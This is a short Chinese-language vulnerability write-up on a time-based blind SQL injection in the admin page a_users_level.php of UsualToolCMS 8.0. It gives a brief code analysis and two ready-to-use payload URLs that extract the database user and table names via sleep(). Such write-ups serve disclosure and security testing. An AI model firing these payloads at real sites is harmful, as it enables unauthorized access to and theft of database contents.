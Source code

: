 # UsualToolcms 8.0 后台盲注

### 一、漏洞简介

### 二、漏洞影响

UsualToolCMS-8.0-Release

### 三、复现过程

漏洞分析

./cmsadmin/a_users_level.php第19行和第26行，id参数可控

![](images/15893739283426.png)


从get处获取id参数，id存在无任何过滤，当postt id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS_INC.php第33行，将(',,",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a_users_level.php第19行id不是字符

![](images/15893739349296.png)


#### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：


```bash
a.当前数据库：http://url:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1)

b.表：http://url:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1)
```

![](images/15893739596163.png)


时间盲注验证脚本

![](images/15893739653517.png)


![](images/15893739700275.png)

